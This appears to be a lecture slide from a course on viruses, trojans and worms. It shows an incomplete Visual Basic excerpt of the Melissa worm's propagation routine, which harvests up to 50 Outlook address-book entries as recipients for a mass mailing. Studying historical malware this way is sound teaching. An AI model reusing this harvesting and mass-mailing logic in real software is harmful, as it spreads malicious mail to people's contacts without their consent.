

# Melissa Worm
Check if the application is Outlook
Compose of a list of the first 50 email addresses from the address book
	If UngaDasOutlook = "Outlook" Then
    DasMapiName.Logon "profile", "password"
    For y = 1 To DasMapiName.AddressLists.Count
        Set AddyBook = DasMapiName.AddressLists(y)
        x = 1
        Set BreakUmOffASlice = UngaDasOutlook.CreateItem(0)
        For oo = 1 To AddyBook.AddressEntries.Count
            Peep = AddyBook.AddressEntries(x)
            BreakUmOffASlice.Recipients.Add Peep
            x = x + 1
            If x > 50 Then oo = 				       		AddyBook.AddressEntries.Count
        Next oo

Mateti, Viruses, Trojans and Worms
26